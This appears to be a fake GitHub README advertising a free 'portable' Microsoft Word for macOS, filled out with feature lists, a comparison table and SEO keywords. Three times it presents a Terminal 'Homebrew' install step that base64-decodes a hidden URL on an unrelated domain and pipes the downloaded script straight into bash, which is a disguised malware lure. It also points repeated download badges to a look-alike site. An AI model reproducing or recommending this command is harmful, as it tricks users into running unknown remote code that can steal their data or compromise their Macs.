 # Microsoft Word for macOS – Portable Edition

📂 **Unzip the archive to a separate folder and run the .app file.**

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

🛠️ Installation (macOS Terminal)
To install the application via Terminal on macOS, follow these steps:

Option 1: Using Homebrew (recommended)

/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"

---
![Microsoft Word on Mac – UI](https://cdn.shopify.com/s/files/1/0329/9865/3996/t/5/assets/how_to_access_microsoft_word_on_mac-n4cxGv.True?v=1707900370)

![How to Get Word for Free on macOS](https://images.macworld.co.uk/cmsdata/features/3777812/how-to-get-microsoft-word-for-free-on-mac-online.png)

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

🛠️ Installation (macOS Terminal)
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"

Microsoft Word for macOS is the industry-standard document editor, now optimized for portable use. Edit and format text, collaborate with others, and export to PDF — all in a clean, familiar interface made for Apple Silicon and Intel Macs.

---

## 🎯 Key Features

- Professional text editing with rich formatting  
- Real-time collaboration via OneDrive  
- Seamless cloud sync and auto-save  
- Wide variety of document templates  
- Smart spelling and grammar check  
- Dark Mode support for macOS  
- Export to PDF or other formats  
- Track changes and comments  
- Built-in citation and bibliography tools  
- Voice dictation and accessibility support  
- Supports .docx, .doc, .rtf, .txt, and more  
- Offline editing without limitations  
- Compatible with Microsoft 365 accounts  
- Native support for Apple Silicon (M1/M2/M3)  
- Integrates with Excel and PowerPoint  
- Drag-and-drop image and table tools  
- Automatic document recovery  
- Ribbon interface with customizable shortcuts  
- Supports printing and layout preview  
- Optimized for macOS Ventura and later  

| Feature / Editor                         | **Microsoft Word**    | Apple Pages   | Google Docs      | LibreOffice Writer | Ulysses / Bear |
| ---------------------------------------- | --------------------- | ------------- | ---------------- | ------------------ | -------------- |
| ✅ **Offline Editing**                    | ✔️ Full support       | ✔️            | ❌                | ✔️                 | ✔️             |
| 💾 **Export to PDF, DOCX, RTF, HTML**    | ✔️ All formats        | ✔️            | ⚠️ Limited       | ✔️                 | ⚠️ Markdown    |
| 🤝 **Real-Time Collaboration**           | ✔️ Via OneDrive       | ✔️ iCloud     | ✔️ Best-in-class | ⚠️ Limited         | ❌              |
| 🧠 **AI-Powered Suggestions**            | ✔️ Grammarly & Editor | ❌             | ✔️ Smart compose | ❌                  | ❌              |
| 🎨 **Advanced Formatting / Styles**      | ✔️ Professional       | ⚠️ Basic      | ⚠️ Basic         | ✔️ Decent          | ❌              |
| 📚 **Templates Library**                 | ✔️ Extensive          | ⚠️ Few        | ⚠️ Few           | ✔️ Basic           | ❌              |
| 🔒 **Document Protection / Track Edits** | ✔️ Full control       | ⚠️ Limited    | ⚠️ Partial       | ✔️ Basic           | ❌              |
| 🖨️ **Print Preview / Layout Mode**      | ✔️ WYSIWYG            | ✔️            | ❌                | ✔️                 | ❌              |
| 🧩 **Cross-Platform Compatibility**      | ✔️ macOS/Windows/iOS  | ✔️ macOS/iOS  | ✔️ Web only      | ✔️ All platforms   | macOS/iOS only |
| 🧬 **Apple Silicon Optimization**        | ✔️ Native support     | ✔️            | ✔️ (via browser) | ✔️                 | ✔️             |
| 🧑‍🎓 **Ideal for Education & Business** | ✔️ Top-tier choice    | ⚠️ Casual use | ✔️ Good online   | ⚠️ Basic           | ❌              |


---

## 💻 System Requirements

- **OS:** macOS 11.0 Big Sur or newer  
- **CPU:** Intel Core i5 / Apple M1 or better  
- **RAM:** 4 GB minimum  
- **Disk Space:** 2 GB available  
- **Internet:** Only for cloud sync or activation (optional)  
- **Note:** No Microsoft 365 subscription required for offline mode  

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
  
  🛠️ Installation (macOS Terminal)
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"
</p>

---

🔍 SEO Keywords
Microsoft Word macOS, Word portable Mac, download Word for Mac, Word app Apple Silicon, Word M1 M2 Mac, offline Word Mac, Word no subscription, Word for students Mac, document editor macOS, best Word processor Mac, Word export to PDF macOS, .docx editor macOS, Word compatible with Pages, Microsoft Office Mac, Word without Microsoft 365, Word dark mode Mac, smart formatting Mac Word, spellcheck macOS editor, grammar correction Mac app, Word free Mac alternative, portable Word macOS Ventura, Word Apple M3 support, edit documents offline Mac, standalone Word Mac, Word collaboration Mac, professional writing Mac, Word academic tools macOS
